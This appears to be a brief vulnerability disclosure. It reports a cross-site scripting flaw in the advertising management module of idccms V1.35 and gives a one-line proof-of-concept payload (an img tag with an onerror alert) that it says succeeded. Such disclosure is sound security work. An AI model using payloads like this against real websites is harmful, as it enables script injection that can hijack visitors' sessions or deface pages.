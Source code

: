 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Advertising management' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
